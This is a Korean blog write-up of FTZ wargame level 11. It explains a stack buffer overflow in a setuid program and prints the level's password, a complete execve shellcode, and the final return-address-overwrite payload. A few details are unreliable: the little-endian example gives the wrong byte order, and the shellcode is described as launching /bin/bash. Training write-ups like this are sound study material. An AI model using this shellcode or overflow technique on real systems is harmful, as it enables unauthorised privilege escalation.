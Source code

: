 ```yaml
---
title: BOF/ ftz-level11
tags: ftz
---
```


11번 포스팅 시작합니다.

FTZ란 Free Training Zone의 약자로 hackerschool에서 배포하는 워게임입니다.  
총 20문제로 구성되어 있으며 각 문제를 격파하여 다음 레벨의 패스워드를 얻는 형식입니다.  
문제를 격파하고 다음 레벨의 bash를 획득하였다면 my-pass로 패스워드를 확인할 수 있습니다.  

사용 linux 명령어  
ls - 파일 내역 출력
cat - 파일 내용 확인  
gcc - gcc컴파일러로 컴파일하도록 하는 명령 
vim - text editor  
cp - 파일 또는 디렉터리 복사 명령  
export - 환경변수 등록 명령  
getenv - 환경변수를 모두 보는 명령  

 [send me email](mailto:jewel7492@gmail.com) if you have any questions.

<!--more-->

---
### FTZ Level 11
**ID : level11**  
**PASSWD : what!@#$?**         

<br />
{% highlight C linenos %}  
#include <stdio.h>
#include <stdlib.h>

int main( int argc, char *argv[] )
{
        char str[256];

        setreuid( 3092, 3092 );
        strcpy( str, argv[1] );
        printf( str );
}

{% endhighlight %}  
<br />
level11부터는 attackme라는 파일이 존재하며 hint는 attackme의 소스가 제공된다.  

**소스분석**  
main에 전달받은 첫 번째 인자(argv[0]은 파일명)를 str에 복사하여 출력하는 소스  
**strcpy함수는 복사할 데이터의 크기제한이 없기 때문에 argv[1]이 256Byte보다 크다면 buffer-overflow가 발생하는 취약점이 있다.**
level12의 권한으로 set-uid가 설정되어 있다.  
<br />
level11부터는 쉘코드를 사용하여 공격을 한다.  
what is shellcode? - 주로 기계어 코드로 이루어진 소프트웨어 취약점을 공격하기 위한 코드.  

#### level11에서 사용한 쉘코드
**\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80**  
이 쉘코드는 /bin/bash를 실행시키도록 하는 코드이다.  

#### ftz에는 ASLR(메모리 보호기법)이 걸려있다.  
**ASLR은 프로그램을 실행할 때 마다 메모리 주소가 변경되는 메모리 보호기법**  

<br />
![그림1](/assets/ftz/level11/1.PNG)  
권한문제가 없도록 tmp디렉터리에 attackme를 복사하고 attackme의 메모리 구조를 파악하기 위해 gdb를 사용하여 intel방식으로 디스어셈블 한다.   

**어셈블리 분석**  
main+3 line을 보면 264byte의 공간을 메모리에 할당했을을 알 수 있다.  
main+41 line을 보면 str의 주소는 ebp-264이며 str(256Byte)뒤에 8Byte의 dummy값이 있음을 알 수 있다.  

**메모리 구조**  
---|  
str(256Byte)
dummy(8Byte)
sfp(4Byte)
ret(4Byte)
...  

<br />
what is sfp? - 스택 베이스 값.  
what is ret? - return address로 다음에 실행할 명령이 위치한 메모리 주소.  

<br />

**main의 ret을 쉘코드가 들어있는 메모리의 주소로 변조한다면 main이 종료될 때 쉘코드가 실행될 것이다.**  

<br />
![그림2](/assets/ftz/level11/2.PNG)  
쉘코드를 환경변수에 등록하고 환경변수의 주소를 ret에 덮는 방식으로 공격을 하자.  
환경변수란? - 운영체제가 참조하는 변수  
SHELLCODE라는 이름의 환경변수를 만들고 그 안에 쉘코드를 넣는다.  

<br />
![그림3](/assets/ftz/level11/3.PNG)  
환경변수의 주소를 얻기 위해 getenv명령을 통해 환경변수의 주소를 출력하는 소스를 작성한다.  

<br />
![그림4](/assets/ftz/level11/4.PNG)  
소스파일을 컴파일하고 실행하여 환경변수의 주소를 얻는다.  

<br />
![그림5](/assets/ftz/level11/5.PNG)  
ret에 접근하기 위해 ret전까지는 아무 값이나 채우고 ret에 환경변수의 주소를 little-endian방식으로 넣는다.  

**리틀 엔디안은 최 하위 바이트 부터 저장하는 방식이다.**  
ex) 0xbffffc11을 리틀 엔디안 방식으로 저장하면 11cfffbf가 된다.  
보통 엔디안 방식은 CPU 아키텍쳐에 따라 다르지만 intel x86, x64, AMD 계열은 리틀엔디안, 모토로라 프로세서들은 빅엔디안을 사용한다.  
현재 시스템의 엔디안방식을 확인하고 싶다면 echo -n I | od -to2 | head -n1 | awk'{print $2;}' | cut -c6  
명령으로 나오는 값이 1이라면 리틀 엔디안, 0이라면 빅엔디안이다.  

<br />

#### 페이로드
./attackme `python -c "print 'A'*268 + '\x11\xfc\xff\xbf'"`